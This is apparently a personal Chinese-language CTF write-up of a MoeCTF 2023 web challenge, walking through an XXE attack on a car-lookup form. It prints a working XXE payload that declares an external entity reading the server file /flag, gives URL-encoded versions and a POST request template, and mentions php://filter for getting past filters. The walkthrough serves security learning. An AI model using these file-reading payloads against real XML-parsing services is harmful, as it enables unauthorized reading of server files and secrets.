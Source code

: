 
#wp #web

【[[WEB]]】[[xxe]] - [[扩展题目]]

创建时间：2025-07-06 02:54

参考文章：
[MoeCTF_2023/Official_Writeup/Web.md at main · XDSEC/MoeCTF_2023](https://github.com/XDSEC/MoeCTF_2023/blob/main/Official_Writeup/Web.md)
了解你的座驾
### 解题过程
##  题目背景

- 前端点击查询某款车时，会向后台 POST 一个表单字段：`xml_content`，内容类似：
    
    ```
    <xml><name>Dodge Viper</name></xml>
    ```
    
- 后端会解析这个 XML，然后返回对应车型的信息。这个流程暗示了可能存在 XXE 漏洞：如果允许定义外部实体（external entity），就可能读取服务器本地文件内容 ([CSDN](https://blog.csdn.net/Leaf_initial/article/details/133924281?utm_source=chatgpt.com))。
    

---

## XXE 基础与知识点

1. **什么是实体（ENTITY）？**  
    在 XML DTD 中，可以通过 `<!ENTITY 名称 SYSTEM "URI">` 定义一个外部实体。
    
2. **如何利用 XXE 读取文件？**  
    定义一个实体指向本地文件（如 `/flag`），然后在 XML body 里调用该实体就能让解析器读取文件内容并插入解析结果。
    

---

## 漏洞利用思路

- 控制 `xml_content`，在 XML 里写入自定义的 DTD 定义：
    
    1. 定义外部实体 `file`，指向本地 `flag` 文件；
        
    2. 在 `<name>` 标签里引用该实体 `&file;`；
        
    3. Send 给后端，等待解析后返回该文件内容。
        

---
### 1. 编写 XXE Payload

```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any [
  <!-- 定义一个外部实体 file，读取服务器 /flag 文件 -->
  <!ENTITY file SYSTEM "file:///flag">
]>
<xml>
  <name>&file;</name>
</xml>
```

- `<!DOCTYPE any […]>`：告诉解析器要定义实体；
    
- `SYSTEM "file:///flag"`：指向服务器根目录下的 `flag` 文件；
    
- `<name>&file;</name>`：在 XML 里插入实体引用，解析时会被替换为 flag 内容。
    

---

### 2. URL 编码 Payload

发送表单时必须 URL encode，否则被当作普通文本：

```html
xml_content=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C!DOCTYPE%20any%20[%0A%20%20<!ENTITY%20file%20SYSTEM%20%22file%3A///flag%22>%0A]%3E%0A<xml><name>&file;</name></xml>
```

**关键要点**：URL encode 后的 `&file;` 才会正确送达后端 ([CSDN](https://blog.csdn.net/Leaf_initial/article/details/133924281?utm_source=chatgpt.com))。

---

### 3. 使用 Burp 或 curl 提交

```
POST /index.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

xml_content=<经过 URL 编码的 XXE Payload>
```

如果 XXE 成功，可以在响应中看到类似 flag 的内容。

![](https://cdn.jsdelivr.net/gh/wydyxhxs/images/pic/20250716234532511.png)
Base64解码得到flag
---

## 总结


    
    - 学会如何定义 XML 外部实体；
        
    - 理解 ENTITY 如何被解析器展开；
        
    - 注意 **URL encode** 是利用 XXE 的关键点；
        
    - 学会从 HTTP 报文角度理解漏洞流程；
        
-  **如果碰到复杂场景**，如需要绕过安全过滤：
    
    - 可以研究 `<!ENTITY file SYSTEM ...>` 的各种 URI 协议（如 `php://filter`）；
        
    - 模拟 Burp 插件自动化构造多个测试。
        

---

EXP

```
xml_content=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A
%3C!DOCTYPE%20xxe%20%5B%0A%20%20%3C!ENTITY%20xxe%20SYSTEM%20%22file%3A///flag%22%3E%0A%5D%3E%0A
%3Cxml%3E%3Cname%3E%26xxe%3B%3C/name%3E%3C/xml%3E
```

- `%xx` 是 URL encode；
    
- `&xxe;` 会被解析器替换成 flag 内容。
    

---

